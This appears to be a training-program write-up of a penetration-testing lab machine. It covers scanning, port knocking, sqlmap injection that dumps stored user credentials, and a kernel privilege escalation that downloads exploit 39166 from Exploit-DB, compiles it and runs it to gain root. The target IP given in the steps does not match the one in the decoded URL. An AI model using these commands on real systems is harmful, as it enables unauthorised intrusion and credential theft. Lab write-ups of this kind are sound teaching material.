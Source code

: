 # DEPI Machine Walkthrough
 
 
 
 This is a report of a penetration testing task we completed during the DEPI Training program. The training, sponsored by the National Telecommunications Regulatory Authority (NTRA) of Egypt, focused on the Vulnerability Analysis/Penetration Testing Track.
 
 
 
 ## Walkthrough
 
 
 
 ### Step 1: Discovering the Target IP
 
 1. Used the **MAC Address** to find the IP address with `netdiscover`.
 
    - **Target IP**: `192.168.207.133`
 
 
 
 ### Step 2: Port Scanning
 
 - Performed an Nmap scan: `nmap -sC -sV -p- <target_ip>`
 
   - Found only SSH port open.
 
 
 
 ### Step 3: Brute-Force Attempts
 
 - Tried logging in with username `smeagol` but without success.
 
 - Attempted brute-forcing the password using **Hydra**, but it failed.
 
 
 
 ### Step 4: Port Knocking
 
 - Identified a hint: "Knock Friend To Enter. Easy as 1,2,3."
 
 - Used Nmap to send port knocking sequences:
 
  ```bash
 
   nmap -Pn --host-timeout 100 --max-retries 0 -p 1 192.168.207.133
 
   nmap -Pn --host-timeout 100 --max-retries 0 -p 2 192.168.207.133
 
   nmap -Pn --host-timeout 100 --max-retries 0 -p 3 192.168.207.133
  ```
 
 
 ### Step 5: Web Application Enumeration
 
 1. Accessed the service through a browser but found no useful information.
 
 2. Checked the `/robots.txt` file and inspected the page source.
 
 3. Discovered a **Base64-encoded path** in the source code. After decoding it twice, found the path:
 
                 http://10.10.207.133:1337/978345210/index.php
 
 4. Visited the path and found a login page.
 
 
 
 ### Step 6: SQL Injection
 
 1. Used **Burp Suite** to intercept the login request and saved it as `post.txt`.
 
 2. Tested the form for SQL Injection vulnerabilities using **SQLmap**:
 
              sqlmap -r post.txt -p username
 
 3. Then Extracted the smeagol username and password.
 
             sqlmap -r post.txt -p username -D Webapp -T Users --dump
 
 
 
 ### Step 7: SSH Access and Privilege Escalation
 
 1. Logged into the machine via SSH using the credentials obtained.
 
 2. Attempted to access the /root directory but was unauthorized.
 
 3. Gathered OS and kernel information:
 
          uname -a
 
 4. Used searchsploit to find exploits for the kernel version:
 
          searchsploit ubuntu 14.04
 
 5. Selected and downloaded an exploit (39166.c) from Exploit-DB:
 
        wget https://www.exploit-db.com/download/39166
 
 6. Compiled and executed the exploit:
 
        gcc 39166.c -o exploit
 
        chmod +x exploit
 
        ./exploit
 
 7. Successfully gained root privileges and accessed the flag in the /root directory. 

